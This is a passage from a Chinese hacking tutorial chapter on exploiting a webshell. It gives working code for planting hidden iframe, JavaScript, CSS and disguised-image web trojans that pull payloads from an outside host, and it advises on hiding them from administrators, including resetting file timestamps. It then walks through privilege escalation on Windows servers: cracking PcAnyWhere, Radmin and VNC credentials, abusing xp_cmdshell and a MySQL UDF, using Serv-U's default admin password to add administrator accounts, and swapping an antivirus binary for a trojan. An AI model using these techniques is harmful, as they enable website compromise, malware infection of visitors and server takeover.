使用 WebShell 在网站文件中挂马的方式有很多种，比较常用的有框架挂马、JS 脚本挂马、CSS 样式表挂马、图片挂马等。

#### 6.1.1 框架挂马

```
html
<iframe src=http://54abu.cn/mm/ms06014.htm width=0 height=0></iframe>
```

这段代码使用了 iframe 框架的形式在插入的地方将 “http://54abu.cn/mm/ms06014.htm” 网马包含了进去。其中的 “width=0 height=0” 表示包含进去的网页的高度值和宽度值都为 0，也就是说不让它显示出来。这个方式是最常用的，当然也最被人所熟悉，被发现的几率也越大。

#### 6.1.2 JS 脚本挂马

首先打开记事本将代码 `document.write("<iframe width='0' height='0' src='http://54abu.cn/mm/ms06014.htm'></iframe>");` 保存为后缀 JS 的脚本文件，将这个 JS 脚本通过 FTP 或者其它方式上传到一个可以 WEB 访问的服务器空间中，然后在需要挂马的地方填写 `<script language=javascript src=http://54abu.cn/mm.js></script>` 就可以了，其中的 “http://54abu.cn/mm.js” 就是保存的 JS 脚本文件。当有人访问被挂马的页面后，浏览器就会自动下载 JS 脚本并执行，JS 脚本中的代码恰恰又是嵌入的另外一个网马，浏览器就会乖乖的访问我们放置好的网马了。它可以是相对路径，也可以是绝对路径。如果入侵网站中的页面中嵌入了其它的 JS 脚本文件，那我们可以不必修改对方的网页文件，而是直接修改它的 JS 脚本文件，以增强隐蔽性。我个人比较喜欢使用这种方式，因为它的灵活性要强的多，如果想更换挂马页面的地址只需要更改 JS 文件的内容即可，不需要更改每个挂马的页面。

#### 6.1.3 CSS 样式表挂马

CSS 是 Cascading Style Sheets（层叠样式表）的简称，它平常是负责美化或者规则网页元素的，我们可以利用 CSS 语言中一个函数来添加 HTML 代码，因此也就可以用来制作挂马了。这种方式类似于 JS 挂马，也是需要先打开记事本将代码 `body {background-image: url('javascript:document.write("<script src=http://54abu.cn mm.js></script>")')}` 保存为后缀为 CSS 的文件，将这个 CSS 样式表通过 FTP 或者其它方式上传到一个可以 WEB 访问的服务器空间中。

看到其中的 `<script src=http://54abu.cn mm.js></script>` 很熟悉吧，它是可以和 JS 挂马相结合使用的，当然这个地方也可以使用框架挂马的代码。我们需要在挂马页面中添加什么样的代码呢？还是和 JS 挂马类似，只是需要的语句不一样罢了：`<link href="css.css" rel="stylesheet" type="text/css" />`，意思就是嵌入当前目录下的 css.css 文件作为 CSS 样式表。如果挂马的网站文件中本来就嵌入了其它的 CSS 文件，那我们只需要修改它的 CSS 文件，将代码增加到它本身的 CSS 文件中即可，当浏览的时候就会自动加载。

CSS 样式表文件，然后就写入了一个 JS 脚本挂马的代码，然后就和 JS 脚本挂马一样了。这种方法可以将 CSS 样式表、JS 脚本文件、网马文件放到三个不同的空间中，可以随意更换，所以灵活性更好。

#### 6.1.4 图片挂马

图片也可以用来挂马？小菜们是不是感觉很不可思议呀？没错，我们就是利用图片的迷惑性来挂马。首先要准备好网马的 URL 地址，以及一张图片的 URL 地址了，这两个地址是支持相对路径和相对路径的。打开记事本将以下内容保存为后缀为 jpg 的文件（例如 mm.jpg）。

</center>

```
html
<html>
<iframe src="http://54abu.cn/mm.htm" height=0 width=0></iframe>
</html>
```

网马地址为 “http://54abu.cn/mm.htm”，图片地址为 “http://54abu.cn/abu.gif”。大家都知道 JPG 为图片文件，如果这样保存的话，在本机是不能打开这个 JPG 文件的，因为本机当作一个图片文件处理，如图 6.7。但是把这个 JPG 文件存放到 WEB 空间里可就不一样了，因为这个 JPG 文件在 WEB 访问的时候会按照 HTML 语言解析，如图 6.8。也就是说可以造成访问的明明是一个 JPG 文件，但是已经当作一个 HTM 文件解析了，因此在访问这个图片的同时也已经访问了使用框架挂马的页面。

灵活运用上面所介绍的四种最常用的挂马方式，相信大家就可以通过挂马来抓到很多肉鸡了。当然在挂马技术中也是需要一些小技巧的，比如在放置这样的网马时尽量不要写在普通网页的最后面，要尽量放在普通网页的中间，以增加迷惑性。对于动态页面尽量不要挂 index.asp 等默认页面，因为管理员会检查的。那么要挂在哪里呢？动态页面一般都跟数据库挂钩，也基本上都会有数据库链接文件，或者其它的被 index.asp 包含的文件（例如 top.asp 等公用文件），我们就可以把代码放到这些 index.asp 等默认页面包含的文件中，管理员检查 index.asp 代码的话也查不到蛛丝马迹。还有就是挂完马后最好把文件的修改时间再改回来，以防止管理员逐个核对文件修改时间，至于方法嘛？可以使用海阳木马等进行修改。这些小技巧的宗旨就是让访问者尽量不会觉察到自己访问了放置好的网马，让网站管理员一头雾水还是查不出到底是在哪里被挂了马。

### 6.2 服务器提权之路

提权，其全称为提升权限，就是将低权限提升到高权限。现在的操作系统为了安全性考虑，都引入了权限这个概念，那么到底什么是权限呢？举个例子来说明，比如系统管理员设置甲用户只允许访问 A 目录，设置乙用户只允许访问 B 目录，那么甲用户是不能访问 B 目录，而乙用户也不能访问 A 目录，他们更不允许来更改这个设置，这就是权限。倘若甲用户或乙用户利用系统中的安全漏洞或是别的方法使得自己突破了原来的限制，能够非法访问对方目录甚至是使得自己能够向管理员那样来获取整个系统的控制，这就是提权。

通常在获得一个 WEBSHELL 或者 CMDSHELL 后，相当于 GUEST 或者 USER 权限，提权要做的就是将其提升到管理员权限或者 SYSTEM 权限，从而控制这个服务器。因此提权需要的就是寻找到突破口，这个突破口不需要多，哪怕仅有一个有效的都可以。一般我们可以利用服务器上安装的一些应用程序来进行权限提升，因为这些程序往往存在着不同程度的安全漏洞或者缺陷，攻陷它们，然后直取系统权限。

### 6.2.1 利用 PcAnyWhere 进行提权

PcAnyWhere 是一款非常著名的远程控制软件，它可以轻松实现在本地计算机上控制远程计算机，使两地的计算机协同工作，可以使用被控端电脑上的程序或在主控端与被控端之间互传文件。很多管理员都在他们的服务器上安装了 PcAnyWhere，等着我们去提权呢！

首先要确定服务器上是否安装了 PcAnyWhere，可以通过扫描端口的办法，如果服务器开放了 5631 号端口的话，基本上就可以断定其开放了 PcAnyWhere 服务。也可以通过 WEBSHELL 查看服务器的“C:\Program Files\Symantec”目录中是否有 PcAnyWhere 目录来确定是否安装了 PcAnyWhere。接着使用 WEBSHELL 的 FSO 等读取文件功能模块访问 “C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\Hosts” 目录，如图 6.9，查看后缀名字为 CIF 的文件，这个就是 PcAnyWhere 用来保存用户密码的文件。将这个文件下载回来，就可以使用专门的工具来对其解密了。打开 Symantec PcAnyWhere PassWord Crack，点击 “密码文件” 后边的 “>>” 按钮，选择刚才下载回来的后缀名为 CIF 的密码文件，然后点击 “Crack” 按钮，好了，密码已经被破解出来了，如图 6.10。

知道了用户名和密码后，我们要如何去连接呢？当然是使用 PcAnyWhere 的客户端来进行连接了，它可以从各大网站上下载到，打开 PcAnyWhere 管理器，点击 “添加主控端”，如图 6.11，然后就会弹出新建主控端的参数，在 “连接信息” 中选择 “TCP/IP”，如图 6.12，在 “设置” 选项的 “控制的网络被控端 PC 或者 IP 地址” 中填写服务器的 IP 地址，如图 6.13，在 “安全选项” 中选择加密级别为 “PcAnyWhere”，如图 6.14，最后点击 “确定” 按钮，建立完毕。双击刚才建立的主控端图标，就会出现 “PcAnyWhere 正在等待连接” 的界面了，如图 6.15，稍等一下便会出现 “PcAnyWhere 被控端登录” 的提示框。

如图6.16，将刚才破解出来的用户和密码填写上，然后点“确定”按钮，再等一下就会成功登录到服务器上了，如图6.17。

可能看到这个界面小菜们又要郁闷了，服务器还没有登录呢，我们要怎么控制呢？一般情况下，管理员设置的服务器登录密码和PcAnyWhere的登录密码是一致的，直接使用PcAnyWhere的登录密码就可以成功登录服务器了，如图6.18。如果服务器的登录密码和PcAnyWhere的登录密码不一致的话，就只能等待管理员给我们登录后再进行控制了。

### 6.2.2 利用Radmin进行提权

Radmin是一款屡获殊荣的安全远程控制软件，在远程电脑上工作，如同坐在那台电脑前一样。可以从多个地点访问同一台电脑，并使用高级文件传输、远程关机、Telnet、操作系统集成的NT安全性系统支持，以及其它功能。

前段时间有网络高手们研究出了可以不使用明文密码连接服务端的方法，Radmin 的连接密码和开放端口保存在注册表中，连接密码是以 HASH 值的方式存放的，后来就开发出了直接使用 HASH 连接服务器端的 Radmin_HASH 版本。

首先要确定服务器上是否安装了 Radmin，可以通过扫描端口的办法，如果服务器开放了 4899 号端口的话，基本上就可以断定其开放了 Radmin 服务，也可以通过 WEBSHELL 查看服务器进程中是否有 “r_server.exe” 来确定是否安装了 Radmin。然后就需要获得注册表中的敏感信息了，使用 WEBSHELL 直接读取注册表中的敏感信息，我们以海阳顶端木马为例，打开“一些项碎的小东西”这个模块，使用其“注册表键值读取”功能，在其中输入“HKLM\SYSTEM\RAdmin\v2.0\Server\Parameters”，如图6.19，然后点击“读取”按钮，就会弹出一个含有该键值的弹出框，如图6.20。

这些键值原本为十六进制，不过被WEBSHELL转换成了十进制。我们需要使用Windows自带的计算器再把它们转回到十六进制。打开计算器，选择“查看”中的“科学计算器”，当前已经为“十进制”模式了。例如第一个值为202，就在计算器中输入202，如图6.21，然后点击“十六进制”，便会将202转换成十六进制的CA了，如图6.22。以此将它们都转换完毕后得到加密过后的密码为：“ca a6 d6 2a c9 b1 d8 9b 4c e0 be f9 e5 13 4e ec”。

获得HASH值后，直接打开Radmin_HASH版本的连接器，如图6.23，点击图中标注的按钮来创建一个新连接，如图6.24，在其中输入服务器的IP地址和Radmin的服务端口，点击“确定”按钮保存。这时在主控制面板中就出现了刚才创建的连接，双击它就会弹出密码验证窗口了，如图6.25，直接输入刚才破解出来的32位小写的HASH值即可，验证完毕后就会自动进入控制界面，如图6.26。还可以在标题栏上点击右键选择“应用连接模式”，选择你需要的管理方式，例如选择“文件管理”菜单，就可以进入文件管理模块，如图6.27。如果没有系统登录密码的话，可以使用“远程TELNET”模块自己新建一个系统管理员账号，是不是很方便呢？

### 6.2.3 利用VNC进行提权

VNC原本是基于UNIX和Linux操作系统的免费的开源软件，它的远程控制功能非常强大，也正因此后来又被开发出了 Windows 版本。VNC 主要由两个部分组成：VNC server 及 VNC viewer。用户需要先将 VNC server 安装在被控端的计算机上，这样才能在主控端执行 VNC viewer 来控制被控端。

VNC 最强大的地方就是跨平台设计，能够运行在多种操作系统中，比如我们可以在 Windows 系统中使用 VNC 远程控制 UNIX/Linux 系统，也可以在 UNIX/Linux 系统中使用 VNC 来控制 Windows 系统。因此很多管理员都青睐于使用 VNC 进行远程维护管理。VNC 也有类似于 PcAnyWhere 的软件设计疏忽，不过 VNC 的敏感信息是存放在服务器的注册表中的。

首先来确定服务器上是否安装了 VNC，可以通过扫描端口的办法，如果服务器开放了 5900 号端口，基本上就可以断定其开放了 VNC 服务，也可以通过 WEBSHELL 查看服务器的 “C:\Program Files\RealVNC” 目录中是否有 VNC4 目录来确定是否安装了 VNC。接下来就需要获取注册表中的敏感信息了，可以使用 WEBSHELL 直接读取注册表中的敏感信息。

我们还是以海阳顶端木马为例，打开 “一些琐碎的小东西” 这个模块，使用它的 “注册表键值读取” 功能，在其中输入 “HKLM\Software\RealVNC\WinVNC4\Password”，如图 6.28，然后点击 “读取” 按钮，就会弹出一个包含有该键值的弹出框，如图 6.29。

这些键值原本为十六进制，不过被 WEBSHELL 转换成了十进制。我们需要使用 Windows 自带的计算器再把它们转回到十六进制。打开计算器，选择“查看”中的“科学计算器”，当前已经为“十进制”模式。例如第一个值为22，我们在计算器中输入22，然后点击“十六进制”，便会将22转换成十六进制的16了。依次将它们都转换完毕后得到了加密后的密码为“16 1a f2 c1 f2 08 0a a3”。

剩下的工作就是解密了，打开解密工具 VNCrackX4，执行命令 `x4.exe -W`，然后依次输入得到的那串十六进制的键值，输完一小段就回车一次，当输入完最后二部分，工具就会自动给出解密后的密码，如图6.30。

知道密码后，就可以使用 VNC 连接器来连接服务器了，VNC 的连接器可以从各大网站下载，安装好后，运行“VNC Viewer”，如图6.31，输入服务器的 IP 地址，点击“确定”按钮，接下来在出现的密码验证窗口中输入解密得到的密码，如图6.32，点击“确定”按钮。好了，已经成功进入服务器的桌面了，如图6.33，而且管理员还替我们登录，真是天助我也！

### 6.2.4 利用SqlRootKit进行提权

## 第六章 得到的WebShell都有什么用

在得到WEBSHELL后一定要去查看一下网站程序连接数据库的文件，通常为conn.asp等，如果网站程序是以SA连接数据库的话，那就恭喜了，你又多了一台服务器肉鸡。而且这种方式比前面所介绍的NBSI方法更稳定，因为它直接把命令送往MSSQL数据库，然后就等着MSSQL执行了。

在获得SA密码后，只需要上传一个SQLRootKit并在IE中访问它，如图6.34，可以看到程序的下方还夹带了我们以前介绍过的小马，可以写一些代码到文件中，对于小菜们来讲这方便了许多。

程序可以自定义SQL用户名、SQL密码、SQL服务器地址、SQL端口等信息，把这些信息填写完整后，点击“login”按钮，就可以进入到控制界面，如图6.35。程序会自动判断系统版本（Windows2003系统）和当前登录账号的SQLServer权限（恭喜！SQLServer最高权限）。然后点一下“检测组件”，便可以检测“XP_cmdshell”、“sp_oacreate”、“xp_regwrite”、“xp_servicecontrol”等扩展存储过程是否存在，这些东西都关乎着我们是否能够成功执行CMD命令，如图6.36。如果有的组件不存在的话就可以点击程序自带的“恢复组件”，这样就可以恢复一些扩展存储过程了，恢复成功后会提示“恭喜！组件齐全”，如图6.37。

当确认万无一失后，便可以执行CMD命令了，在“系统命令”处填写想要执行的CMD命令，比如**net user**，然后在“请选择运行程序的组件”下拉列表中选择使用的扩展存储过程，最常用的就是“XP_cmdshell”了，如图6.38，最后点击“执行”命令，便会得到“net user”的回显信息，如图6.39。当然我们也可以添加管理员帐号再使用3389登录，只要权限有了，什么就都有了。

程序还可以以登录用户的身份执行SQL命令，比如删除哪个数据表（drop table news），然后再点“执行”按钮，一个数据表就轻松删除了。

### 6.2.5 利用UDF.DLL进行提权

现在越来越多的PHP网站出现在了网络上，大家在平时的人侵中也获得了不少PHP环境的WebShell吧，当然还有网站程序连接MYSQL数据库的帐号密码，如果这个帐号有对mysql的insert和delete权限以创建和抛弃函数（MYSQL文档原语），那么我们就可以利用UDF自定义函数执行系统命令，而且还是系统SYSTEM权限，操作系统必须是Windows2000/XP/2003系统！

首先使用获得的WebShell将所需要使用的PHP文件上传到服务器上，然后在IE中访问它，分别输入HOST（主机IP地址）、MYSQL帐号、密码、数据库名（获得的帐号所能访问的数据库名）进行登录，如图6.40。

登录成功后，如图6.41，就需要将UDF.DLL文件释放出来了，对于MYSQL5.0以上的版本，必须将DLL导出到目标机器的系统目录（windows或system32目录），否则在下一步操作中你会看到“No paths allowed for shared library”的错误。那么我们要如何查看MYSQL的版本呢？只需要使用Webshell中的PHPINFO功能即可，如图6.42。我测试的MYSQL版本为5.0.37，所以需要将它释放到系统目录中，我在“DLL导出路径”中填入“C:\Windows\udf.dll”，然后点击“导出到此目录”，如果成功的话就会有提示的，如图6.43。

导出成功后，就得创建自定义函数了，在SQL命令中填入Create Function cmdshell returns string soname 'udf.dll'就可以创建，如图6.44。由于我将UDF.DLL文件释放到了系统目录，所以只需要给出DLL的文件名即可。点击“执行”后，程序会提示已经执行成功。现在就可以使用cmdshell这个自定义函数来执行系统命令了。

```
Create Function cmdshell returns string soname 'udf.dll';
```

要在SQL命令中填入`select cmdshell('net user')`即可，如图6.45，就跟在海阳木马里面执行CMD一样。

在提权完毕后还要记得擦屁股，最好将这个自定义的函数删除掉，只需要在SQL命令中填入`drop function cmdshell`即可，如图6.46。

### 6.2.6 利用Serv-U进行提权

Serv-U是一款被广泛运用的FTP服务器端软件，支持Windows9x/2000/XP/2003等全部的系统。它的设置很简单，功能强大，性能稳定。Serv-U并不是简单的提供文件的下载，还为用户的系统安全提供了相当全面的保护，可以设定多个FTP服务器、限定登录用户的权限、登录主目录及空间大小等，功能非常完善。

Serv-U的软肋是在它的管理模式上，Serv-U提供了两种用来保存管理参数的方式：一种是INI配置文件保存方式，是将管理参数保存到程序安装目录中一个名为ServUDaemon.ini的配置文件里，如图6.47；另一种是注册表保存方式，是将管理参数数据保存到注册表中的`HKEY_LOCAL_MACHINE\SOFTWARE\Cat Soft\Serv-U`分支中，如图6.48。

Serv-U的服务进程默认会监听IP为`127.0.0.1`的网络接口上的`43958`端口，当Serv-U使用它的管理客户端进行管理的时候，会自动连接这个43958端口。由于绑定在了IP为127.0.0.1的网络接口上，所以只能在本机连接这个管理端口。当然也不是随便一个程序连接43958端口就认定它是管理客户端，这是需要账号和密码进行验证的，Serv-U默认的管理帐号是`localAdministrator`，默认的密码是`#1@$ak#.lk;0@P`，这个密码是固定的。

漏洞就这样诞生了，如果可以使用这个默认的帐号和密码连接到IP为127.0.0.1网络接口的43958端口上，然后发送一些修改管理参数的命令，那么就可以轻松控制运行在服务器上的Serv-U了。

我们要如何提权呢？由于Serv-U支持一个可以在服务器中执行CMD命令的功能，需要满足的条件是必须以Serv-U的系统管理员权限。我们可以利用漏洞发送特定数据建立一个Serv-U的系统管理员帐号，然后使用FTP连接上去，再执行那个可以执行CMD命令的功能命令，添加一个Windows的系统管理员，就可以3389进行连接了。

#### 第一种：修改INI配置来提权

这种方式利用起来比较简单，只需要修改那个名为`ServUDaemon.ini`的配置文件即可，此文件被保存在Serv-U安装程序的目录里面，默认情况下保存路径为`C:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini`，不过默认只有只读的权限，但是也有管理员把Serv-U安装在其它位置的，如果权限设置不好的话，就可以轻松修改了。如果这个文件有修改权限的话，基本上就可以提权了。

为了把ServUDaemon.ini里的内容改成我们想要的，就需要伪造一个出来，最好是先在本地电脑上安装一个Serv-U程序，安装的过程略过（很简单的，一路默认即可）。随意建立一个测试用的FTP域，再建立一个FTP用户，在“账号”选项中将特权设置为“系统管理员”，主目录设置为“C:\”，如图6.49，切换到“目录访问”选项，将右侧的权限都勾选上，我们注意到的就是“执行”这个权限，如图6.50，最后点击“应用”进行参数保存。

现在就可以返回程序的安装目录查看ServUDaemon.ini的内容了，如图6.51。

参数伪造完毕后，就可以打开WebShell访问服务器上Serv-U的安装目录，如图6.52，点击WebShell的“编辑”按钮进入文本编辑状态，将我们伪造的参数添加进去。

为了更好的让大家看清楚需要添加哪些参数进去，我将添加前和添加后的文件内容贴出来进行对比，如图6.53，图6.54。这样修改后Serv-U就修改了管理参数，添加了你设置的Serv-U管理员账号。

接下来连接服务器的21端口，在CMD中输入**FTP 192.168.10.200**就可以连接到IP为192.168.10.200的21端口上，如图6.55，接着Serv-U要求输入账号和密码，分别输入刚才添加的Serv-U管理员账号和密码，Serv-U返回了“230 User logged in, proceed.”表示已经通过验证。由于用户的主目录设置为C盘根目录，如果服务器是Win2003的话需要执行`cd windows`、`cd system32`命令切换到系统的SYSTEM32目录；如果服务器是Win2000的话需要执行`cd winnt`、`cd system32`命令切换到系统的SYSTEM32目录。然后执行`quote site exec "net user hacker hacker /add"`、`quote site exec "net localgroup administrators hacker /add"`命令就可以向服务器添加一个管理员账号了。

如果不清楚服务器终端服务是开放在哪个端口的话，还可以执行`quote site exec "netstat -an >>c:\1.txt"`命令，将当前服务器中开放的端口全部导出到C盘的1.txt文件中，然后使用WebShell进行查看，最后使用远程桌面程序连接服务器即可，服务器成功提权，如图6.56。

#### 第二种：执行EXE提权

高手们编写出了很多具有这个功能的EXE程序，起初程序中绑定了连接的端口（43958）、添加的管理员账号、口令等信息；后来进化到了可以将连接端口（43958）、添加的管理员账号、口令等信息作为参数；再后来进化到在添加管理员帐号后自动连接本机的FTP执行提权的命令。ServU提权综合工具就是这样一个不错的工具，如图6.57，它可以自定义连接的端口、连接的账号、口令、执行的命令等。打开工具，设置完这些信息后点击“生成”就可以在程序目录中生成一个名为“Servu.exe”的CMD程序，如图6.58，将这个程序通过WebShell上传到随便一个可以执行命令的目录中，转到WebShell的“WScript.Shell命令行操作”功能来执行命令。

在“命令／参数”中输入**d:\www\web\servu.exe**命令，如图6.59，然后点击“运行”按钮，就会将该程序的使用说明在屏幕中显示出来，直接将需要运行的命令当作参数用双引号包含起来即可，比如想添加一个帐号和口令都为Hacker的Windows帐号，如图6.60，就输入**d:\www\web\servu.exe “net user hacker hacker /add”**，然后点击“运行”按钮，稍等一会儿就可以看到程序返回的数据，查看是否命令已成功执行。

生成的这个小程序的工作原理是使用在生成的时候所配置的默认管理员账号、口令信息连接到绑定在服务器本机“127.0.0.1”网络接口上的43958端口上，添加一个临时FTP域（防止影响到原来的FTP域），然后发送分析出来的Serv-U管理客户端添加用户的数据（添加一个帐号和密码都为allife的Serv-U管理员账号），然后程序使用账号密码都为allife的FTP用户连接FTP端口（一般为21），执行所谓程序参数的命令信息，最后删除那个添加的临时域。我们再利用这个程序将名为hacker的用户提升到Windows系统管理员，就可以进行3389连接等操作了。

##### 第三种：执行脚本提权

也许大家不会相信，其实脚本也是可以发送数据的，比如现在很多网站的采集功能等，Serv-U的提权脚本就是利用的类似的功能。目前流行的脚本类型基本都支持发送数据，比如ASP、ASPX、PHP、CGI、PL等。

介绍一款ASP类的提权脚本：Serv-U 2 admin【作者：Lake2】首先使用WebShell将提权脚本上传到一个可以执行ASP文件的目录，然后在IE中访问它，便可以得到它的运行主界面，如图6.61。界面很简洁，只需要输入默认管理员的帐号和口令，绑定在服务器上管理端口就行了。这个脚本的功能有两个，一个是用来添加帐号，自动添加一个Serv-U管理员，并且给予其执行权限。另一个功能则是删除添加的帐号，主要是用来清理尾巴。

选择“Add User”后，点击“Run”运行，脚本添加完毕后就会返回如图6.62所示的信息，表示已经添加了一个名为lake、密码为admin123的Serv-U管理员账号，然后就可以使用CMD下的FTP工具连接上去执行你想执行的命令了，最后可别忘了清理尾巴哦！

介绍一款ASPX的提权脚本：Serv-U 2 admin【作者：Lake2】

首先使用WebShell将提权脚本上传到一个可以执行ASPX文件的目录，然后在IE中访问它，便可以得到它的运行主界面，如图6.63。这款脚本的作者也是上边那款ASP提权脚本的作者，所以这两个提权脚本在界面上是差不多的，不过在功能上可就不一样了，这款ASPX的提权脚本可以自动执行CMD命令，简单省力。在脚本中输入默认管理员账号和密码、管理端口、想执行的CMD命令等信息，点击“Start”按钮就可以执行，脚本会自动返回执行的结果，如图6.64。

介绍一款PHP的提权脚本：Serv-U 本地提升权限【作者：我非我】

首先使用WebShell将提权脚本上传到一个可以执行PHP文件的目录，然后在IE中访问它，便可以得到它的运行主界面，如图6.65。

这款提权脚本分为了两个功能部分，一个是添加Serv-U用户部分，只需要在脚本中输入主机IP、主机FTP端口、主机FTP管理端口、主机FTP管理员、主机FTP管理密码、添加的用户名、密码、用户主目录等信息，然后点击“添加”按钮即可，脚本会自动返回得到的信息，如图6.66。另一个则是执行命令部分，如图6.67，只需要在脚本中输入主机FTP端口、用户名、密码、系统路径、执行命令等信息，然后点击“执行”按钮即可，脚本也会自动返回得到的信息，如图6.68。

## 第六章 得到的 WebShell 都有什么用


图6.69

其中的系统路径是服务器的系统路径，如果为 Win2000 系统的话，一般为“C:\winnt\system32”，如果为 Win2003 系统的话一般为“C:\windows\system32”。

### 6.2.6 替换文件提权

在尝试很多方法还是没有提权成功的情况下，可以考虑使用替换服务的提权方法，替换的服务做指向的文件你必须有修改的权限，而且这个服务必须是自动启动类型的。

首先登录海阳顶端木马查看当前服务器开放的服务，从列表中发现安装了瑞星杀毒软件，如图6.69，然后使用 FSO 文件浏览器寻找瑞星杀毒软件安装在哪里，只要不是 C 盘就基本上可以替换它的主文件。


图6.71

一番查找后，发现瑞星被安装在了 D 盘下的“Program Files”文件夹下，使用删除功能看看是否可以删除瑞星的主文件，如图6.70。删除文件成功，看来权限还是够强大的，接着使用 FSO 的上传功能将配置好的 PcShare 木马改成瑞星的主文件的文件名“CCenter.exe”，并选择覆盖方式上传，如图6.71。


图6.70


图6.72

成功替换后，就得等待服务器重新启动了，在服务器重新启动后，会自动加载服务所指向的 EXE 文件，这时候我们放置的木马也就能够执行了，如图6.72。因为 Windows 的系统通常开放的时间一长就容易出问题，也有的管理员会定期重新启动服务器，如果服务器一直不重启的话，还可以考虑直接将服务器 D 死，不信它不重新启动。在重新启动系统木马执行后，要记得将原来的瑞星服务主文件恢复，防止被管理员发现。